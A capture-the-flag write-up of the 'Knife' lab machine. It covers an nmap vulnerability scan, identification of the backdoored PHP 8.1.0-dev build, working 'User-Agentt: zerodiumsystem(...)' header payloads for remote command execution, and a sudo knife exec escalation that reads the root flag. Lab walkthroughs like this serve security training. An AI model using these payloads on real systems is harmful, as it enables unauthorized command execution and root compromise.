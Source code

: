 # Knife


## Nmap

After removing irrelevant OSes (Redhat, Huawei, FreeBSD, OpenBSD, Gentoo)
and older exploits:

```bash
nmap -sV -A -p 80,22 --script vuln 10.10.10.242
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.2p1: 
|     	CVE-2020-15778	6.8	https://vulners.com/cve/CVE-2020-15778
|     	CVE-2020-12062	5.0	https://vulners.com/cve/CVE-2020-12062
|     	CVE-2021-28041	4.6	https://vulners.com/cve/CVE-2021-28041
|     	MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/	4.3	https://vulners.com/metasploit/MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/	*EXPLOIT*
|     	CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| vulners: 
|   cpe:/a:apache:http_server:2.4.41: 
|     	MSF:ILITIES/UBUNTU-CVE-2020-11984/	7.5	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2020-11984/	*EXPLOIT*
|     	CVE-2020-11984	7.5	https://vulners.com/cve/CVE-2020-11984
|     	CVE-2020-1927	5.8	https://vulners.com/cve/CVE-2020-1927
|     	MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-9490/	*EXPLOIT*
|     	CVE-2020-9490	5.0	https://vulners.com/cve/CVE-2020-9490
|     	CVE-2020-1934	5.0	https://vulners.com/cve/CVE-2020-1934
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/	4.3	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2020-11993/	*EXPLOIT*
|_    	CVE-2020-11993	4.3	https://vulners.com/cve/CVE-2020-11993

```

## CVE?

Very little is running on the server:

- the webpage is static
- there's no common directory exposed
- only 2 services open

So, one technology among the following must have a known exploit:

- Ubuntu
- PHP 8.1.0-dev
- openssh 8.2p1
- Apache httpd 2.4.41

After another round of quick sifting we're left with:

- openssh:
  - CVE-2020-15778	6.8	https://vulners.com/cve/CVE-2020-15778
- httpd:
  - CVE-2020-11984	7.5	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2020-11984/

And after even more googling, the actual vector is a pure backdoor in PHP!

In retrospect, the most eye-catching information was the PHP version: 8.1.0-dev.
Dev builds are rarely found in production, and in every challenge the package
with a specific, outdated, version is there for a reason!

> always always

## Foothold

The back evaluates any string in the HTTP headers following `zerodium`:

```
User-Agentt: zerodiumsystem("id");
```

```
uid=1000(james) gid=1000(james) groups=1000(james)
```

## Escalation

The current user can run `/usr/bin/knife` with root privileges.

```ruby
unless defined?(Bundler) && Bundler.instance_variable_defined?("@load")
  ENV["GEM_HOME"] = ENV["GEM_PATH"] = nil unless ENV["APPBUNDLER_ALLOW_RVM"] == "true"
  ::Gem.clear_paths
  spec = Gem::Specification.find_by_name("chef", "= 16.10.8")
else
  spec = Gem::Specification.find_by_name("chef")
end

unless Gem::Specification.unresolved_deps.empty?
  $stderr.puts "APPBUNDLER WARNING: unresolved deps are CRITICAL performance bug, this MUST be fixed"
  Gem::Specification.reset
end

bin_file = spec.bin_file("knife")

Kernel.load(bin_file)
```

IE this lets us use the chef's knife, with:

```
User-Agentt: zerodiumsystem("sudo /usr/bin/knife");
```

Then breakout with the knife and execute a system call:

```
User-Agentt: zerodiumsystem("sudo /usr/bin/knife exec -E 'exec \"id\"'");

User-Agentt: zerodiumsystem("sudo /usr/bin/knife exec -E 'exec \"cat /root/root.txt\"'");
```